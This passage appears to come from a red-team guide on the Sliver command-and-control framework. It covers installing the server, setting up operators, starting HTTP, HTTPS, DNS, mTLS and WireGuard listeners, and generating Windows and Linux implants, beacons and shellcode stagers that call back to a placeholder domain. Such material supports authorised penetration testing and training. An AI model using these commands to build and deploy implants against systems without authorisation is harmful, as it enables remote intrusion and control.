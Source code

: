 :::note
Sliver requires downloading the appropriate binary for your platform from the official releases. Replace all example IPs, domains, and file paths with your specific values. Session mode is required for pivoting and SOCKS proxy features.
:::

Sliver is an open-source, cross-platform C2 framework written in Go, providing fast, portable, and extensible capabilities for adversarial operations.

### 8.1 Server Setup and Configuration

```bash
# Download and install Sliver
wget https://github.com/BishopFox/sliver/releases/download/v1.5.x/sliver-server_linux
chmod +x sliver-server_linux
./sliver-server_linux

# Start server in daemon mode
./sliver-server_linux daemon

# Configure multiplayer mode
./sliver-server_linux operator --name operator1 --lhost 192.168.1.100 --lport 31337

# Connect as operator
./sliver-client_linux --config operator1.cfg
```

### 8.2 Listener Configuration

```bash
# Start HTTP listener
sliver > http --domain example.com --lhost 192.168.1.100 --lport 80

# Start HTTPS listener with custom certificate
sliver > https --domain secure.example.com --lhost 192.168.1.100 --lport 443 --cert cert.pem --key key.pem

# Start DNS listener
sliver > dns --domains example.com --lhost 192.168.1.100

# Start mutual TLS listener
sliver > mtls --lhost 192.168.1.100 --lport 8888

# Start WireGuard listener
sliver > wg --lhost 192.168.1.100 --lport 51820

# List active listeners
sliver > jobs
```

### 8.3 Implant Generation

```bash
# Generate session implant (interactive)
sliver > generate --http example.com --os windows --arch amd64 --format exe

# Generate beacon implant (callback intervals)
sliver > generate beacon --http example.com --os windows --arch amd64 --seconds 60 --jitter 10

# Generate staged payload
sliver > generate stager --http example.com --os windows --arch amd64 --format shellcode

# Generate implant with custom settings
sliver > generate --http example.com --os linux --arch amd64 --name "custom-implant" --debug --skip-symbols

```
